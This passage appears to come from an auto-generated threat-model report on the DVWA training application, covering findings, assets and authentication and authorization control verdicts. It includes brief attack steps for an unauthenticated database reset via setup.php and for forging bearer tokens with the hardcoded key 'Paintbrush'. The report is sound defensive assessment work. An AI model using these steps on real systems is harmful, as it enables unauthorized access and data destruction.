**Source:** 🟠 [F-036](#f-036) — `setup.php:6`

Severity **High** ([CWE-306](https://cwe.mitre.org/data/definitions/306.html)). STRIDE: Elevation of Privilege. See [§8 F-036](#f-036) for the full register row.

**Attack Steps**

1. I request GET `/setup.php` without a session and read the `user_token` hidden field.
2. I POST `create_db` with that token, and `MySQL.php` drops the database and reseeds admin/password.

**Sequence Diagram**



**Key takeaway:** Until ◕ [M-042](#m-042) (Require authentication on every exposed endpoint) lands, 🟠 [F-036](#f-036) — Unauthenticated database reset is exploitable at `setup.php:6` (High-severity, [CWE-306](https://cwe.mitre.org/data/definitions/306.html)).

**Defense in Depth**

- Primary mitigation: ◕ [M-042](#m-042) (Require authentication on every exposed endpoint)

### 3.8 Hardcoded token encryption key allows bearer token forgery in DVWA API service

**Source:** 🟡 [F-039](#f-039) — `vulnerabilities/api/src/Token.php:10`

Severity **Medium** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Spoofing. See [§8 F-039](#f-039) for the full register row.

**Attack Steps**

1. Clone the public repository and locate the cryptographic key at `vulnerabilities/api/src/Token.php:10`.
2. Tokens are AES-GCM encrypted JSON with the fixed key 'Paintbrush' and the fixed secret '12345' from `Login.php`.
3. Anyone with the source can mint a token with a far-future expiry that `check_access_token` accepts, which gives access to all order endpoints without logging in.

**Sequence Diagram**



**Key takeaway:** Until ◑ [M-045](#m-045) (Load token key from secret storage and rotate) lands, 🟡 [F-039](#f-039) — Hardcoded token encryption key allows bearer token forgery is exploitable at `vulnerabilities/api/src/Token.php:10` (Medium-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ◑ [M-045](#m-045) (Load token key from secret storage and rotate)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="22%" style="width:22%"><col width="13%" style="width:13%"><col width="32%" style="width:32%"><col width="33%" style="width:33%"></colgroup>
<thead><tr><th>Asset</th><th>Classification</th><th>Description</th><th>Linked Threats</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word">Database connection credentials</td><td>Restricted</td><td>DB user and password supplied via configuration/environment, with defaults in the template and compose file.</td><td style="overflow-wrap:break-word">🟠 <a href="#f-002">F-002</a> — Passwords hashed with unsalted MD5 and no strength policy<br/>🟠 <a href="#f-009">F-009</a> — DOM XSS from URL default parameter written<br/>🟠 <a href="#f-010">F-010</a> — Reflected cross-site scripting<br/>🟠 <a href="#f-011">F-011</a> — Stored guestbook name and message persisted without HTML encoding<br/>🟠 <a href="#f-012">F-012</a> — SQL injection in user details update endpoint<br/>🟠 <a href="#f-013">F-013</a> — SQL injection<br/>🟠 <a href="#f-014">F-014</a> — SQL injection in brute-force login query<br/>🟠 <a href="#f-015">F-015</a> — SQL injection<br/>🟠 <a href="#f-016">F-016</a> — SQL injection<br/>🟠 <a href="#f-017">F-017</a> — SQL injection in unquoted numeric context despite escaping<br/>🟠 <a href="#f-018">F-018</a> — Blind SQL injection<br/>🟠 <a href="#f-019">F-019</a> — Blind SQL injection<br/>🟠 <a href="#f-020">F-020</a> — Blind SQL injection in unquoted context despite escaping<br/>🟠 <a href="#f-028">F-028</a> — Static database credentials hardcoded in compose file<br/>🟠 <a href="#f-030">F-030</a> — Unauthenticated legacy user API version exposes password hashes<br/>🟠 <a href="#f-031">F-031</a> — Hardcoded database credentials in test script<br/>🟡 <a href="#f-037">F-037</a> — Hardcoded weak MariaDB root and application credentials<br/>🟡 <a href="#f-038">F-038</a> — Login allows unlimited password guessing without lockout<br/>🟡 <a href="#f-049">F-049</a> — API user creation sets a fixed default password<br/>🟡 <a href="#f-053">F-053</a> — Request URI reflected unescaped into inline JavaScript<br/>🟡 <a href="#f-054">F-054</a> — Stored XSS in authbypass user table<br/>🟡 <a href="#f-055">F-055</a> — Stored XSS of logged X-Forwarded-For in access log table<br/>🟡 <a href="#f-056">F-056</a> — Reflected XSS of username in login welcome message<br/>🟡 <a href="#f-057">F-057</a> — Unencoded HTML injection of include parameter at high CSP level<br/>🟡 <a href="#f-058">F-058</a> — Reflected script injection<br/>🟡 <a href="#f-059">F-059</a> — Reflected XSS with static CSP nonce and unsafe-inline<br/>🟡 <a href="#f-060">F-060</a> — Cross-site scripting<br/>🟡 <a href="#f-061">F-061</a> — Reflected XSS</td></tr>
<tr><td style="overflow-wrap:break-word">User account credentials</td><td>Restricted</td><td>Usernames and <code>MD5</code> password hashes in the users table, checked at login.</td><td style="overflow-wrap:break-word">🟠 <a href="#f-002">F-002</a> — Passwords hashed with unsalted MD5 and no strength policy<br/>🟠 <a href="#f-009">F-009</a> — DOM XSS from URL default parameter written<br/>🟠 <a href="#f-010">F-010</a> — Reflected cross-site scripting<br/>🟠 <a href="#f-011">F-011</a> — Stored guestbook name and message persisted without HTML encoding<br/>🟠 <a href="#f-012">F-012</a> — SQL injection in user details update endpoint<br/>🟠 <a href="#f-013">F-013</a> — SQL injection<br/>🟠 <a href="#f-014">F-014</a> — SQL injection in brute-force login query<br/>🟠 <a href="#f-015">F-015</a> — SQL injection<br/>🟠 <a href="#f-016">F-016</a> — SQL injection<br/>🟠 <a href="#f-017">F-017</a> — SQL injection in unquoted numeric context despite escaping<br/>🟠 <a href="#f-018">F-018</a> — Blind SQL injection<br/>🟠 <a href="#f-019">F-019</a> — Blind SQL injection<br/>🟠 <a href="#f-020">F-020</a> — Blind SQL injection in unquoted context despite escaping<br/>🟠 <a href="#f-030">F-030</a> — Unauthenticated legacy user API version exposes password hashes<br/>🟡 <a href="#f-038">F-038</a> — Login allows unlimited password guessing without lockout<br/>🟡 <a href="#f-047">F-047</a> — Hardcoded OAuth client secret and user password<br/>🟡 <a href="#f-049">F-049</a> — API user creation sets a fixed default password<br/>🟡 <a href="#f-053">F-053</a> — Request URI reflected unescaped into inline JavaScript<br/>🟡 <a href="#f-054">F-054</a> — Stored XSS in authbypass user table<br/>🟡 <a href="#f-055">F-055</a> — Stored XSS of logged X-Forwarded-For in access log table<br/>🟡 <a href="#f-056">F-056</a> — Reflected XSS of username in login welcome message<br/>🟡 <a href="#f-057">F-057</a> — Unencoded HTML injection of include parameter at high CSP level<br/>🟡 <a href="#f-058">F-058</a> — Reflected script injection<br/>🟡 <a href="#f-059">F-059</a> — Reflected XSS with static CSP nonce and unsafe-inline<br/>🟡 <a href="#f-060">F-060</a> — Cross-site scripting<br/>🟡 <a href="#f-061">F-061</a> — Reflected XSS</td></tr>
<tr><td style="overflow-wrap:break-word"><code>reCAPTCHA</code> private key</td><td>Confidential</td><td>Secret key configured for CAPTCHA verification and sent to Google.</td><td style="overflow-wrap:break-word">🟠 <a href="#f-008">F-008</a> — Seeded default accounts with trivial passwords stored as unsalted<br/>🟠 <a href="#f-028">F-028</a> — Static database credentials hardcoded in compose file<br/>🟠 <a href="#f-029">F-029</a> — Path traversal in source viewer reads<br/>🟠 <a href="#f-031">F-031</a> — Hardcoded database credentials in test script<br/>🟡 <a href="#f-037">F-037</a> — Hardcoded weak MariaDB root and application credentials<br/>🟡 <a href="#f-039">F-039</a> — Hardcoded token encryption key allows bearer token forgery<br/>🟡 <a href="#f-047">F-047</a> — Hardcoded OAuth client secret and user password<br/>🟡 <a href="#f-063">F-063</a> — Path traversal in help viewer id and locale<br/>🟡 <a href="#f-064">F-064</a> — Hardcoded and undersized AES-256-GCM token key<br/>🟡 <a href="#f-074">F-074</a> — Profile access gated by a fixed hardcoded query-string token</td></tr>
</tbody>
</table>

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (0)

_None enumerated._

### 5.2 Authenticated Entry Points (0)

_None enumerated._

---

## 6. Security Architecture

This chapter is organized by security-control category. Findings are listed only where the affected control is described.

_Cataloged controls: 19 total - 3 adequate, 6 partial, 6 weak, 2 unsafe, 2 missing._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no `Content-Security-Policy` header).

### 6.1 Security Control Overview

<!-- §6.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls) | 🔴 Unsafe | 4 findings; catalogued controls are present<br/>but defeated (e.g. API login credential<br/>check, Password hashing for login). |
| [6.3 Session and Token Controls](#63-session-and-token-controls) | 🟠 Weak | 1 finding; catalogued controls are weak<br/>(e.g. Anti-CSRF session token on login). |
| [6.4 Authorization Controls](#64-authorization-controls) | 🟠 Weak | 5 findings; no compensating controls<br/>catalogued. |
| [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls) | 🟠 Weak | 9 findings; catalogued controls are weak<br/>(e.g. SQL query construction in login). |
| [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls) | 🟡 Partial | 0 findings; 1 partial control (e.g. Route<br/>and ID parsing in front controller) leave<br/>gaps. |
| [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls) | 🟠 Weak | 12 findings; no compensating controls<br/>catalogued. |
| [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls) | 🟠 Weak | 2 findings; catalogued controls are weak<br/>(e.g. CORS policy on API front controller). |
| [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection) | 🟠 Weak | 9 findings; catalogued controls are weak<br/>(e.g. Database credential management,<br/>Default database credentials in<br/>configuration). |
| [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls) | 🟠 Weak | 7 findings; catalogued controls are weak<br/>(e.g. `reCAPTCHA` server-side verification). |
| [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls) | 🔴 Unsafe | 7 findings; catalogued controls are present<br/>but defeated (e.g. Database network exposure<br/>isolation, Image pinning and version<br/>control). |
| [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls) | - | No controls or findings in this category. |

<!-- §6.1 MECHANICAL-FROZEN END -->

### 6.2 Identity and Authentication Controls

<a id="ctrl-identity-and-authentication-controls"></a>

**Verdict:** 🔴 Unsafe - the API login compares against hardcoded literals, the SQL login path is injectable, and no password reset or change flow exists.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.2.1 Password hashing for login](#621-password-hashing-for-login)
- [6.2.2 Password Reset](#622-password-reset)

**Implemented controls:** API login credential check, Password hashing for login, Authentication disable switch.

**Assessment:** Authentication exists but is defeated at each step. The API login checks fixed credentials (🟡 [F-047](#f-047)), the brute-force login query is injectable (🟠 [F-014](#f-014)), passwords are unsalted `MD5` (🟠 [F-002](#f-002) (Passwords hashed with unsalted `MD5` and no strength policy)), and guessing is unlimited (🟡 [F-038](#f-038)). Each successful flow ends with the server issuing a session token; its signing, validation, and lifecycle are described in [§6.3 Session and Token Controls](#63-session-and-token-controls).

<!-- §6.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§6.3 Session and Token Controls](#63-session-and-token-controls) and password hashing under [§6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|---------|-----------|------------------------------------------------|
| User registration | 🟡 Medium | [§6.2](#62-identity-and-authentication-controls) | [W-007](#w-007) — Privileged attributes lack an enforced write allowlist |
| Password login | 🔴 Unsafe | [§6.2](#62-identity-and-authentication-controls) | 🟠 [F-014](#f-014) — SQL injection in brute-force login query — `low.php:13` |
| Password reset / change | 🔴 Missing | [§6.2](#62-identity-and-authentication-controls) | - |
| Password storage (hashing) | 🟠 Weak | [§6.9](#69-cryptography-secrets-and-data-protection) | [W-005](#w-005) — Security-sensitive data uses weak cryptographic primitives<br/>[W-004](#w-004) — Secrets are committed to source instead of a managed store<br/>🟠 [F-030](#f-030) — Unauthenticated legacy user API version exposes password hashes — `User.php:45` |
| JWT / bearer-token session | 🟡 Medium | [§6.3](#63-session-and-token-controls) | [W-004](#w-004) — Secrets are committed to source instead of a managed store |
| OAuth / OIDC federated login | 🟡 Medium | [§6.2](#62-identity-and-authentication-controls) | [W-004](#w-004) — Secrets are committed to source instead of a managed store<br/>🟡 [F-050](#f-050) — API token endpoint supports the deprecated OAuth — `LoginController.php:90` |

_Also checked, not detected on this codebase: Session-token storage, Multi-factor authentication (TOTP / 2FA)._

<!-- §6.2 AUTH-MECHANISMS-FROZEN END -->

**Findings in this category without a control:**

- 🟠 [F-036](#f-036) — Unauthenticated database reset
- 🟡 [F-038](#f-038) — Login allows unlimited password guessing without lockout
- 🟡 [F-049](#f-049) — API user creation sets a fixed default password

<a id="api-login-credential-check"></a>
**API login credential check.**


**Status:** 🔴 Unsafe - the credential check compares against hardcoded literals, so anyone who reads the source can authenticate.

<!-- Model implementation note (facts for the intro): LoginController::loginJSON and LoginController::login -->
`LoginController::loginJSON` and `LoginController::login` in the API compare the submitted username and password, and the OAuth client id and secret, against configured values before granting access.

The diagram shows the intended API login path from credential submission to token issuance:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Login compares username/password and OAuth client id/secret to hardcoded literals with loose == comparison. No rate limiting or lockout seen in the inspected slice. Credentials are fixed and visible in source, so the mechanism is defeated. This is likely intentional in the DVWA training app. -->
The check is a comparison against fixed values, so it protects nothing once the source is readable:

- OAuth client secret and user password are hardcoded in the controller (🟡 [F-047](#f-047)).
- The token endpoint still offers the deprecated password grant (🟡 [F-050](#f-050)).
- Login accepts unlimited guesses with no lockout (🟡 [F-038](#f-038)).
- API user creation assigns one fixed default password (🟡 [F-049](#f-049)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="password-hashing-for-login"></a>
#### 6.2.1 Password hashing for login

**Status:** 🟠 Weak - unsalted `MD5` hashes and trivially guessable seeded passwords make stored credentials quick to recover.

Login hashes the submitted password with `MD5` and compares it to the stored hash. Seeded accounts are created by the setup routine.

The diagram shows the intended password-check path through the hashing step:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Passwords are stored and compared as unsalted MD5. Seeded accounts use trivially guessable passwords. No lockout or rate limiting observed in the inspected login code. -->
Three weaknesses sit on the password path:

- Passwords use unsalted `MD5` with no strength policy (🟠 [F-002](#f-002) — Passwords hashed with unsalted MD5 and no strength policy (Passwords hashed with unsalted `MD5` and no strength policy)), and the hash primitive itself is broken (🟡 [F-003](#f-003) — Broken MD5/SHA-1 Hash Primitive Usage (Broken `MD5`/SHA-1 Hash Primitive Usage)).
- Seeded accounts carry trivial passwords (🟠 [F-007](#f-007), 🟠 [F-008](#f-008)).
- The legacy user API returns password hashes without authentication (🟠 [F-030](#f-030)).
- No lockout or rate limit slows guessing (🟡 [F-038](#f-038)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="authentication-disable-switch"></a>
**Authentication disable switch.**


**Status:** 🟡 Partial - a switch can turn authentication off, defaulting to on, and where it is enforced was not verified.

The `DISABLE_AUTHENTICATION` environment variable toggles authentication. Its default is false.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Authentication can be disabled via DISABLE_AUTHENTICATION env; default is false. Enforcement elsewhere was not inspected. -->
The switch is a deliberate off-ramp whose enforcement is unverified:

- Where the flag is consumed was not inspected, so enforcement is an open question, not a confirmed gap.
- Related reachability gaps exist regardless of the flag: the database reset is unauthenticated (🟠 [F-036](#f-036)) and user management is reachable by low-privilege callers (🟡 [F-097](#f-097)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="password-reset"></a>
#### 6.2.2 Password Reset

**Status:** 🔴 Missing - no password reset or change flow is evidenced, so the control has to be added.

This control is not evidenced in the repository.

The diagram shows the only credential path evidenced, login, since no reset flow exists:


**Security assessment**

No recovery or rotation path is evidenced, so credential repair depends on out-of-band changes:

- Accounts seeded with trivial passwords have no in-app rotation route (🟠 [F-008](#f-008)).
- API-created users all receive one fixed password (🟡 [F-049](#f-049)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.3 Session and Token Controls

<a id="ctrl-session-and-token-controls"></a>

**Verdict:** 🟠 Weak - the login anti-CSRF token holds, but bearer-token forgery and session-lifetime gaps remain.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.3.1 Anti-CSRF session token on login](#631-anti-csrf-session-token-on-login)

**Implemented controls:** Anti-CSRF session token on login.

**Assessment:** This application uses locally issued tokens for API access and a session plus anti-CSRF token for the web login, regardless of which flow in [§6.2](#62-identity-and-authentication-controls) established them. The login token check is the one catalogued control. Bearer tokens can be forged because the encryption key is hardcoded (🟡 [F-039](#f-039)), and one session-lifetime weakness is routed here (🟡 [F-096](#f-096)).

**Findings in this category without a control:**

- 🟡 [F-096](#f-096) — User keeps

<a id="anti-csrf-session-token-on-login"></a>
#### 6.3.1 Anti-CSRF session token on login

**Status:** 🟢 Adequate - the login POST validates a per-session token, though the check implementation was not inspected.

The login form render generates a `user_token`, and the login POST checks it against the session token through `checkToken`.

The diagram shows the anti-CSRF token round trip on login:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Login POST validates user_token against the session token via checkToken, and a token is generated on form render. checkToken implementation was not inspected. -->
The control looks sound on the login form, with limits:

- The `checkToken` implementation was not inspected, so its comparison strength is unverified.
- Other state-changing actions lack the token (🟠 [F-001](#f-001)) or use a bypassable Referer check (🟠 [F-023](#f-023)).
- A session-lifetime weakness ([CWE-613](https://cwe.mitre.org/data/definitions/613.html)) is routed here (🟡 [F-096](#f-096)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.4 Authorization Controls

<a id="ctrl-authorization-controls"></a>


**Systemic weaknesses:** [W-007](#w-007)
**Verdict:** 🟠 Weak - checks exist in places but rely on client-controlled values, trust a single flag, or are absent.

<!-- The line below is mechanically derived from the section's default mechanism — LLM must not re-author it. -->
**Controls covered:**

- [6.4.1 Route and Object Authorization](#641-route-and-object-authorization)

**Implemented controls:** API front-controller routing and an admin check on the user update page (`change_user_details.php`).

**Assessment:** Authorization is applied per page instead of through one server-side layer. Profile access trusts a client cookie (🟡 [F-073](#f-073) (Profile authorization trusts client-controlled `user_id` cookie)) and a fixed token (🟡 [F-074](#f-074)), the admin check on user update stands alone (🟡 [F-075](#f-075)), the API accepts privileged fields on user creation (🟡 [F-076](#f-076)), and user management is reachable without privilege (🟡 [F-097](#f-097)). The missing piece is a central server-side authorization check.

<a id="route-and-object-authorization"></a>
#### 6.4.1 Route and Object Authorization

**Status:** 🟠 Weak - checks exist in places but depend on client-controlled values or are missing.

Authorization decides who may view or change user records and privileged settings. Profile pages and the user-management API apply role or ownership checks on some routes only.

**Security assessment**

Access decisions are made from values the caller controls. `low.php:33` trusts a `user_id` cookie (🟡 [F-073](#f-073) (Profile authorization trusts client-controlled `user_id` cookie)), and `medium.php:26` gates profile access on a fixed query-string token (🟡 [F-074](#f-074)). `change_user_details.php:11` is the single admin check on user update (🟡 [F-075](#f-075)), while `UserController.php:225` lets a caller set the privileged user level (🟡 [F-076](#f-076)). `index.php:71` exposes user management to low-privilege callers (🟡 [F-097](#f-097)), and `medium.php:55` trusts a client-supplied CAPTCHA field (🟡 [F-045](#f-045)).

**Relevant findings**

- 🟡 [F-045](#f-045) — CAPTCHA completion trusted from client-supplied form field
